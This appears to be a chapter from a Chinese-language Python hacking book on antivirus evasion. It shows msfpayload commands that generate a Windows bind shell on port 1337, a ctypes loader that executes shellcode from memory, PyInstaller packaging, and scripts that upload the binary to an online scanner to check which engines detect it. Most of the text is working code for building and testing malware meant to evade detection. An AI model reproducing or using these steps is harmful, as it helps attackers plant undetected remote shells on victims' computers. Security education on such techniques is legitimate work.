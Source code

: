 # 第 7 章 用 Python 实现免杀

被命名为“火焰”（Flame）的恶意软件，在用被称为 Beetlejuice、Microbe、Frog、Snack 和 Gator 的 Lua 脚本编译后，该恶意软件可以通过蓝牙标识出被其侵入的计算机、秘密录音，入侵附近的计算机并往远程命令和控制服务器上传屏幕截图和数据。大多数杀毒引擎仍在使用基于特征码的检测作为主要的检测手段。

## 免杀的过程

在 Metasploit 框架中包含有一个恶意代码库。使用 Metasploit 生成 C 语言风格的一些 shellcode 作为恶意载荷。

```shell
# msfpayload windows/shell_bind_tcp LPORT=1337 C
```

要写一段用来执行这段 C 语言风格的 shellcode 脚本。Python 支持导入其他语言的函数库，导入 ctypes 库——这个库使我们能用 C 语言中的数据类型。

```python
from ctypes import *
shellcode = ("...")
memory_with_shell = create_string_buffer(shellcode, len(shellcode))
shell = cast(memory_with_shell, CFUNCTYPE(c_void_p))
shell()
```

下一步，使用 Pyinstaller 生成 Windows PE（portable executable）格式的可执行文件。

### 免杀验证

使用 `vscan.novirusthanks.org` 的服务来扫描可执行文件。NoVirusThanks 提供了一个 Web 网页界面，可以上传可疑文件，然后用多种不同的杀毒引擎扫描它。可以编写一个小巧的 Python 脚本自动完成这一步骤。在通过 Web 网页界面交互时，抓取一个 tcpdump 抓包文件，利用 httplib 库进行编写。

注意 boundary 字段，是用来分隔文件内容和数据包中其他内容的

```python
def upload_file(file_name):
    print("[+] Uploading file to NoVirusThanks...")
    file_contents = open(file_name, "rb").read()
    header = {
      "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryF17rwCZdGuPNPT9U"
    }
    params = "----WebKitFormBoundaryF17rwCZdGuPNPT9U"
    params += '\r\nContent-Disposition: form-data; name="upfile"; filename="{}"'.format(file_name)
    params += '\r\nContent-Type: application/octet stream\r\n\r\n'
    params += file_contents
    params += '\r\n------WebKitFormBoundaryF17rwCZdGuPNPT9U'
    params += '\r\nContent-Disposition: form-data; name="submitfile"\r\n'
    params += "------WebKitFormBoundaryF17rwCZdGuPNPT9U--\r\n"
    conn = httplib.HTTPConnection("vscan.novirusthanks.org")
    conn.request("POST", "/", params, header)
    response = conn.getresponse()
    location = response.getheader("location")
    conn.close()
    return location
```

接下来写一个把我们上传的可疑文件的扫描结果打印出来的 Python 脚本。首先，脚本要连接到 “file” 页面，它会返回一个 “正在进行扫描” 的消息。一旦这个页面返回一个 HTTP 302，就重定向到分析结果页面，可以使用一个正则表达式读取发现率，并把 CSS 代码用空白字符串替换掉。

```python
def print_results(url):
    status = 200
    host = url_parse(url)[1]
    path = url_parse(url)[2]
    if "analysis" not in path:
        while status != 302:
            conn = httplib.HTTPConnection(host)
            conn.request("GET", path)
            resp = conn.getresponse()
            status = resp.status
            print("[+] Scanning file...")
            conn.close()
            time.sleep(15)
	print("[+] Scan Complete.")
    path = path.replace("file", "analysis")
    conn = httplib.HTTPConnection(host)
    conn.request("GET", path)
    resp = conn.getresponse()
    data = resp.read()
    conn.close()
    re_results = re.findall(r"Detection rate:.*\) ", data)
    html_strip_res = re_results[1].replace("&lt;font color='red'&gt;", '').replace("&lt;/font&gt;", "")
    print("[+] {}".format(html_strip_res))
```

使用默认的 Metasploit 编码器把它编码到一个标准的 Windows 可执行文件中。这个文件显然无法逃过正常的杀毒软件的查杀

```shell
$ msfpayload windows/shell_bind_tcp LPORT=1337 X > bindshell.exe
```